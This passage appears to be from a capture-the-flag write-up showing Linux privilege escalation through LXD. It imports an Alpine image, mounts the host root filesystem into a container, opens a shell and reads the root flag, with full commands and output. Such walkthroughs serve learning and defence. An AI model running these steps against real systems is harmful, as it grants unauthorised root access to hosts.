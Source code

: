 Next, I searched for the `lxc` tool:

```
-bash-5.0$ find / -iname lxc 2>/dev/null
/snap/lxd/16100/bin/lxc
/snap/lxd/16100/commands/lxc
/snap/lxd/16100/lxc
/snap/lxd/17320/bin/lxc
/snap/lxd/17320/commands/lxc
/snap/lxd/17320/lxc
/snap/bin/lxc
/usr/share/bash-completion/completions/lxc
```

The `lxc` tool was located at `/snap/bin/lxc`. Next, I imported the Alpine Linux image:

```
-bash-5.0$ /snap/bin/lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

Image imported with fingerprint: 922072e9de0047fae387ad82163b54d59f029dc59dac4a9b53d46bedf8cc07d8
-bash-5.0$ /snap/bin/lxc image list
+--------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| alpine | 922072e9de00 | no     | Alpinelinux edge x86_64 (20200921_1825) | x86_64       | CONTAINER | 4.21MB | Sep 21, 2020 at 6:32pm (UTC) |
+--------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
```

Then, I created a persistent storage location for the container runtime, specified a root disk device for starting the container, and mounted the host's root file system into the container:

```
-bash-5.0$ /snap/bin/lxc storage create pool1 dir
Storage pool pool1 created
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool1
Device root added to default
-bash-5.0$ /snap/bin/lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Next, I started the container and invoked a shell in it:

```
-bash-5.0$ /snap/bin/lxc start privesc
-bash-5.0$ /snap/bin/lxc exec privesc /bin/sh
# cat /mnt/root/root/flag.txt
d73b04b0e696b0945283defa3eee4538
```
